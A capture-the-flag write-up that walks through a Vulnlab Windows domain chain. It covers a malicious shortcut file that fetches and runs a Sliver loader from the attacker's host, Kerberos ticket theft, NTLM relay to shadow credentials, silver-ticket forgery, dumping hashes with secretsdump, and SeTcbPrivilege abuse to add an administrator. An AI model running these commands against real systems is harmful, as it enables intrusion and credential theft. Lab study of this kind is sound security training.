Intercept is a hard difficulty Windows chain on Vulnlab with two machines, made by geiseric. It features multi-host domain exploitation through SMB enumeration, relay attacks, and ADCS.

### Tools
- https://nmap.org/
- https://github.com/fortra/impacket
- https://github.com/Pennyw0rth/NetExec/
- https://github.com/CravateRouge/bloodyAD
- https://github.com/ozelis/winrmexec
- https://github.com/BishopFox/sliver
- https://github.com/P0142/IfritLoader
- https://github.com/SpiderLabs/Responder
- https://github.com/SpecterOps/BloodHound
- https://github.com/dirkjanm/PKINITtools
- https://github.com/strayge/pylnk
- https://github.com/puckiestyle/SeTcbPrivilege-Exploit

## Recon
---
```sh
DC01.SIDECAR.VL / 10.10.157.213
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
3268/tcp  open  globalcatLDAP
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman

WS01.SIDECAR.VL / 10.10.157.214
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
```

We start with SMB enumeration as the `Guest` account to check whether it’s enabled and to discover accessible shares:
```sh
nxc smb DC01.SIDECAR.VL -u 'Guest' -p '' --shares
```


The account is enabled, and we have READ/WRITE access to the `Public` share.

On connecting to and enumerating the share we see that there's a folder in the `Public` share for custom shortcuts:
```sh
smbclient.py -no-pass Guest@DC01.SIDECAR.VL
```


## Foothold on WS01
---
When I was checking other writeups in prep for creating my own I noticed that all but one of them created the lnk file on Windows instead of linux, and the one that didn't used an old python2 script. When I originally went through the chain I used Windows, but since then I've found a way to create lnk files that work from linux.
We'll use the pylnk3 library/tool, you can get it here:
https://github.com/strayge/pylnk

We can build a test payload like this:
```sh
pylnk3 create 'c:\Windows\system32\cmd.exe' -a '/c powershell -c irm http://10.8.3.84/test.txt' pay.lnk
```

And after a while we see that it works!


Now to make a payload that gets us a shell. Since we don't know if the machine is running any sort of anti-virus we can use a loader. I'll be using the one that I created for Ifrit, but any should work.
https://github.com/P0142/IfritLoader
```sh
pylnk3 create 'c:\Windows\system32\cmd.exe' -a '/c powershell -c irm http://10.8.3.84/IfritLoader.exe -o C:/ProgramData/Load.exe; Start-Process -FilePath "C:/ProgramData/Load.exe" -ArgumentList "/p:http://10.8.3.84/https.bin"'
```

Generate a sliver beacon:
```
generate beacon --os windows --arch amd64 --http https://10.8.3.84 -G
```


And converting it to shellcode to use with the loader:








Now that we have a session on the machine lets see if there are any interesting tickets that we can use to take control of the account:
```sh
rubeus klist
```


Unfortunately for us we can't use any of these tickets to take control of the user just yet. So we'll use `rubeus tgtdeleg` option to request a ticket as our current user, `E.Klaymore`:
```sh
rubeus tgtdeleg
```


Removing whitespaces with cyberchef:



Save the base64 to a file, then convert it back to a standard kirbi by decoding the base64.
```sh
cat klay.b64|base64 -d > klay.kirbi
```
Once converted we use impacket's ticketConverter to change it from a kirbi to a ccache, which is usable to us.
```sh
ticketConverter.py klay.kirbi klay.ccache
```


Export the ticket, and now we are `E.Klaymore`.
```sh
nxc smb WS01.SIDECAR.VL -u 'E.Klaymore' --use-kcache --shares
```


Since we have an account now lets run Bloodhound:
```sh
nxc ldap DC01.SIDECAR.VL -u 'E.Klaymore' --use-kcache --dns-server 10.10.157.213 --bloodhound --collection all
```


## Relaying to Administrator on WS01
---
With our new user on hand we can perform a similar relay chain to what we did on Intercept for `WS01`. Checking the `WebDAV` status with netexec we see that it's currently disabled:
```sh
nxc smb WS01.SIDECAR.VL -u 'E.Klaymore' --use-kcache -M webdav
```


We can enable it from the session, make sure that you have responder running as a web server alone is not enough to cause WebDAV to become enabled.




It is the act of trying to authenticate that enables it.
From the beacon run:
```sh
execute net use x: http://10.8.3.84/
```



For some reason responder isn't responding, not visually atleast. But fortunately for us it doesn't have too, as on checking the `WebDAV` status with netexec we see that it is now enabled.
```sh
nxc smb WS01.SIDECAR.VL -u 'E.Klaymore' --use-kcache -M webdav
```


We can see that ldap signing is disabled, but the machine account quota is also zero for our account.



We should still be able to coerce and gain access regardless, but won't be able to perform RBCD. First we need to add a dns record:
```sh
bloodyAD --host DC01.SIDECAR.VL -d SIDECAR.VL -u 'E.Klaymore' -k add dnsRecord 'polar' 10.8.3.84
```


As always we verify that it was added successfully:
```sh
bloodyAD --host DC01.SIDECAR.VL -d SIDECAR.VL -u 'E.Klaymore' -k get dnsDump
```


From netexec we can see that ADCS is running on the DC:
```sh
nxc ldap DC01.SIDECAR.VL -u 'E.Klaymore' --use-kcache -M adcs
```


With LDAP signing disabled we should be able to coerce into shadow credentials.
```sh
sudo ntlmrelayx.py -t "ldap://DC01.SIDECAR.VL" --shadow-credentials --shadow-target 'WS01$'
```


Then we can use petitpotam to coerce `WS01` into authenticating to us with the DNS record we added earlier.
```sh
nxc smb WS01.SIDECAR.VL -u 'E.Klaymore' --use-kcache -M coerce_plus -o METHOD=petitpotam LISTENER=polar@80/test
```


Checking our relay we see that the attack was successful.



### Hash Recovery and Silver Tickets
---
The attack instructs us to PKINITtools to get a ccache, which allows us to authenticate as the `WS01$` account:
```sh
uv run --with oscrypto,minikerberos --script PKINITtools/gettgtpkinit.py -cert-pfx SMR4QEzA.pfx -pfx-pass lYP1VaY0bDkeULENSh5e Sidecar.vl/WS01$ SMR4QEzA.ccache
```


Lets get an nthash, first we need to export the ticket that we just got and then we can pass the key with `getnthash.py` in order to get `WS01$`'s hash.
```sh
export KRB5CCNAME='SMR4QEzA.ccache'
uv run --with oscrypto,minikerberos,impacket --script PKINITtools/getnthash.py -key '8929475b3f919b3eb09a9a4f61d2c101c69c1cd4c17092f452cc339422bc0bb0' SIDECAR.VL/'WS01$'
```


Hash in hand we can use ticketer to forge a silver ticket to access `WS01` as the Administrator:
```sh
ticketer.py -spn 'cifs/WS01.SIDECAR.VL' -domain-sid S-1-5-21-3976908837-939936849-1028625813 -domain SIDECAR.VL -user-id 500 -nthash $WS01_HASH administrator
```


We can use the forged ticket to dump hashes from the machine with `secretsdump`.
```sh
secretsdump.py -k -no-pass WS01.SIDECAR.VL
```


This gets us access to the Deployer and Admin accounts.

Before proceeding, lets forge a silver ticket for HTTP to connect in with winrm:
```sh
ticketer.py -spn 'http/WS01.SIDECAR.VL' -domain-sid S-1-5-21-3976908837-939936849-1028625813 -domain SIDECAR.VL -user-id 500 -nthash $WS01_HASH administrator
```


`WS01` has winrm disabled, however we can still connect with wmiexec.py and collect our first flag.
```sh
wmiexec.py -k -no-pass administrator@WS01.SIDECAR.VL
```


## WS01 to DC01
---
We recovered the hash of a user named `Deployer` from `WS01`, and while there is no user named `Deployer` on the domain there is a user named `svc_deploy`.


The hash gets us control over `svc_deploy`:
```sh
nxc smb DC01.SIDECAR.VL -u 'svc_deploy' -H $DEP_HASH
```


Since they're in the "Remote Management Users" group we should be able to connect to the DC with WinRM.
```sh
winrmexec.py -hashes :$DEP_HASH SIDECAR.VL/svc_deploy@DC01.SIDECAR.VL
```


Sure enough we can.

Running `whoami /all` we see that we have `SeTcbPrivilege`.


`SeTcbPrivilege` allows a user to act as a part of the operating system.

http://stackoverflow.com/questions/5294171/ddg#5294200

> Acting as a part of the operating system allows you to do things like create login tokens. It's unlikely that you would ever need to write a service that uses this privilege unless you're writing an authentication provider.

> Since you can create access tokens, you can act as any user. Of course, this means that you can run programs under the SYSTEM account.

We can use this POC from `puckiestyle` to add a new administrator

https://github.com/puckiestyle/SeTcbPrivilege-Exploit
```powershell
./TcbElevation.exe UwU "C:\Windows\System32\cmd.exe /c net user polar Password123! /add && net localgroup administrators polar /add"
```


Finally we can connect in with our new account and grab the root flag from the administrators' desktop, completing the chain.


On a real engagement you wouldn't add a user, you would get a beacon running as SYSTEM and go from there. The POC can do this as well, but I wanted to add a user.
